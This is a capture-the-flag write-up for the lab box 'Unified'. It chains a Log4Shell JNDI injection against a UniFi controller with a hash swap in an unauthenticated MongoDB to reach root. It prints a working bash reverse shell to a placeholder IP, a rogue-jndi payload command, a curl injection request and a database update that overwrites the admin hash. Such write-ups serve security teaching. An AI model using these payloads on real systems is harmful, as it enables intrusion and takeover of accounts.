





# Unified — Log4Shell to Root via MongoDB Hash Swap

Unified is a Very Easy Linux box that demonstrates one of the most impactful vulnerabilities in recent memory: Log4Shell (CVE-2021-44228). The box runs a vulnerable version of UniFi Network Controller, and exploitation chains together a JNDI injection for initial access with an unauthenticated MongoDB instance to escalate all the way to root.

---

## Reconnaissance

I started with an automated Nmap scan to get a picture of what was running on the box.



The most interesting port is **8443**, which serves the UniFi Network Controller web UI. Navigating there confirms version **6.4.54**. A quick search reveals that UniFi patched Log4Shell in version **6.5.54** — meaning this version is squarely in the vulnerable range for CVE-2021-44228.

---

## Foothold

### Understanding Log4Shell

Log4Shell works because Log4j 2.x supports a feature called *message lookup substitution* — when Log4j processes a string like `${jndi:ldap://attacker.com/payload}`, it actually reaches out to that LDAP server and loads a remote Java class. The critical insight is that **any input that gets logged** can trigger this. In UniFi's case, the `remember` field in the login POST request is passed to Log4j without sanitization.

Before firing the exploit, I verified the callback was working by setting up a quick listener and using `tcpdump` to confirm the LDAP connection came back:

```bash
sudo tcpdump -i tun0 port 389
```

If you see a connection from the target when you send the payload, you know the JNDI lookup is firing — this is a great sanity check before standing up the full rogue server.

### Setting Up the Attack Infrastructure

I used `rogue-jndi` to serve both a malicious LDAP server and an HTTP server that delivers the exploit payload. The payload is a standard bash reverse shell, but there's an important detail: **base64-encode it**. When the Java class executes the shell command, special characters like `&`, `>`, and `/` can break the command parsing. Encoding sidesteps this entirely.

My reverse shell, base64-encoded:

```bash
echo 'bash -i >& /dev/tcp/<VPN_IP>/4444 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC5YLzQ0NDQgMD4mMQo=
```

Then I started `rogue-jndi` with the encoded payload:

```bash
java -jar rogue-jndi.jar \
  -c "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC5YLzQ0NDQgMD4mMQo=}|{base64,-d}|bash" \
  -n <VPN_IP>
```

And my Netcat listener:

```bash
nc -lvnp 4444
```

### Triggering the Exploit

With the infrastructure running, I sent the JNDI payload to the UniFi login endpoint via `curl`. The `remember` field is what gets logged — that's where the injection goes:

```bash
curl -sk https://<TARGET>:8443/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"a","password":"a","remember":"${jndi:ldap://<VPN_IP>:1389/o=tomcat}"}'
```



Shell caught as the `unifi` service account. I upgraded to a proper interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

### Discovering Unauthenticated MongoDB

From the `unifi` shell, I started looking for ways to escalate. UniFi Network Controller stores all its data in MongoDB — and the key question is whether it's locked down. Checking the listening ports:

```bash
ss -tlnp | grep 27117
```

Port **27117** is open and bound to localhost. I connected directly with no credentials:

```bash
mongo --port 27117
```

No password required. This is a common misconfiguration with embedded MongoDB installations — they're expected to only be accessible from localhost, so authentication is never configured. The database we care about is `ace`:

```bash
use ace
db.admin.find()
```



The `x_shadow` field holds the administrator's password hash — a **SHA-512 crypt** (`$6$`) hash. I threw it at `hashcat` with rockyou:

```bash
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```

No luck. The password is genuinely strong and doesn't appear in common wordlists. This is where a lot of writeups would get stuck, but the key realization is: **I don't need to crack the hash — I can replace it**.

### Hash Replacement Attack

I generated a SHA-512 crypt hash for a password I know (`Password1234`):

```bash
openssl passwd -6 Password1234
# $6$nXNMn1IKFZ5YFCLu$O8Nl3gWHAFO6aJRKzQ9mXS0J6.xzYbf9f6a2kXk7T1gNzA.....
```

Then I updated the `administrator` record in MongoDB to use my known hash:

```bash
mongo --port 27117 ace --eval \
  'db.admin.update({"name":"administrator"},{$set:{"x_shadow":"$6$nXNMn1IKFZ5YFCLu$O8Nl3gWHAFO6aJRKzQ9mXS0J6.xzYbf9f6a2kXk7T1gNzA....."}})'
```



With the hash replaced, I logged into the UniFi web console at `https://<TARGET>:8443` as `administrator` / `Password1234` — and it worked.

### Recovering SSH Credentials

Once inside the UniFi admin panel, I browsed to **Settings → Device Authentication** (sometimes listed under Site settings or SSH credentials depending on the UniFi version). There, stored in plaintext:

```
Username: root
Password: NotACrackablePassword4U2022
```

UniFi stores SSH credentials for managing network devices — and in this case, those credentials were recycled for the box itself. I SSHed in directly:

```bash
ssh root@<TARGET>
```



---

## Lessons Learned

**Log4Shell is as bad as the hype.** CVE-2021-44228 affected essentially any Java application using Log4j 2.x — which was nearly everything. The attack surface is any logged string, and developers had no easy way to audit every logging call in their stack. If you're ever assessing a Java application built before late 2021, Log4Shell should be near the top of your checklist.

**Base64-encode payloads through JNDI.** The Java class that gets executed passes your command to a shell, and characters like `&`, `/`, and `>` will break things silently. Wrapping your reverse shell in `{echo,<b64>}|{base64,-d}|bash` is the standard pattern that avoids this entirely.

**Unauthenticated databases on localhost are still exploitable.** The reasoning that "it's only bound to localhost, so it's fine" falls apart the moment an attacker has any form of code execution on the box. Always configure authentication on database services, even internal ones.

**When you can write to a database, you don't need to crack hashes — you can replace them.** Attempting to crack a `$6$` hash with a strong password could take days or be impossible. The write-access path (generate a known hash, swap it in, authenticate) took thirty seconds.

**Application admin panels are credential goldmines.** After gaining admin access to any management console, always check the settings. Network management tools like UniFi, Nagios, and Zabbix frequently store device credentials, SNMP strings, or API keys in their configuration UI — often in plaintext.
